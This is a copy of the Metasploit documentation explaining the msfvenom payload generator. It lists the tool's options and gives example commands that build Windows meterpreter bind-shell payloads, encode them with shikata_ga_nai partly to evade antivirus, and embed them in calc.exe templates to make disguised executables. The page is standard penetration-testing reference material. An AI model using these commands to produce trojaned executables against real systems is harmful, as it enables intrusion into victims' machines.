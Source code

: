Msfvenom is the combination of payload generation and encoding. It's a replacement for msfpayload and msfencode. It supports the following options:

```
Options:
    -p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads
    -l, --list       [module_type]   List a module type example: payloads, encoders, nops, all
    -n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload
    -f, --format     <format>        Output format (use --help-formats for a list)
    -e, --encoder    [encoder]       The encoder to use
    -a, --arch       <architecture>  The architecture to use
        --platform   <platform>      The platform of the payload
    -s, --space      <length>        The maximum size of the resulting payload
    -b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'
    -i, --iterations <count>         The number of times to encode the payload
    -c, --add-code   <path>          Specify an additional win32 shellcode file to include
    -x, --template   <path>          Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --options                    List the payload's standard options
    -v, --var-name <name>            Specify a custom variable name to use for certain output formats
    -h, --help                       Show this message
        --help-formats               List available formats
```

**How to generate a payload**

To generate a payload, you can use the -p flag. You will also most likely use the -f flag (also known as --format) to specify what the output should be. Format can be two things: either you're generating an executable type format, or you are generating a transform type format. The executable type means when you create the payload, the output is meant to be a file. The transform format means this is code, as in you probably copy and paste this to some exploit code you're working on.

The executable format is pretty straight forward, so it needs no further explanation. But there is another flag that's specifically designed for some transform formats, and that is the -v flag (--var-name). This option allows you have a custom variable name in your output, and currently only the following transform formats support --var-name: bash, c, csharp, java, perl, powershell, py, rb, sh, vbapplication, vbscript.

The following is a basic example of how to generate a file:

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

The -p flag also supports "-" as a way to accept a custom payload:

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

This is an example of setting a custom variable for a C output:

```
echo AAAA | ./msfvenom -p - -a x86 --platform windows -v myVar -f java
```

If you'd like to know all the built-in Metasploit payloads available, you can use the -l flag:

```
./msfvenom -l payloads
```



**How to encode a payload**

By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```
./msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus but understand encoding isn't really meant to be used a real AV evasion solution:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

**How to avoid bad characters**

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

**How to supply a custom template**

By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

Please note: If you'd like to create a x64 payload with a custom x64 custom template for Winodws, then instead of the exe format, you should use exe-only:

```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.